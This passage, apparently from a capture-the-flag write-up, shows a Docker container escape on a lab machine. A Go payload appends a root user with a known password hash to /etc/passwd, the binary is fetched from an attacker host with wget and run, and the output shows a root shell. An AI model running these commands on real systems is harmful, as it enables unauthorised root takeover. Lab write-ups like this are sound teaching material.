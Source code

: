 ```code
....
// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n echo 'rooot:$1$mysalt$lEeAKJmXWixtWh5SL7YFk0:0:0:/root:/root:/bin/bash' >> /etc/passwd"
....
```
now we build the main.go using the command `go build main.go`

and on the attacker machine we're going to enter the docker container and get the payload using the command
```
noah@thenotebook:~$ sudo  /usr/bin/docker exec -it webapp-dev01 /bin/bash
root@58fc4c26f1d6:/opt/webapp# wget http://<attacker ip address>:8000/main
root@58fc4c26f1d6:/opt/webapp# chmod +x main
root@58fc4c26f1d6:/opt/webapp# ./main
```

now we ssh to noah on a new tab and execute the sudo -l command 
```
noah@thenotebook:~$ sudo  /usr/bin/docker exec -it webapp-dev01 /bin/sh
No help topic for '/bin/sh'
```
and now the user rooot is created with root SHELL.
```
noah@thenotebook:~$ su rooot
Password: 
root@thenotebook:/home/noah# id
uid=0(root) gid=0(root) groups=0(root)
root@thenotebook:/home/noah# 
```
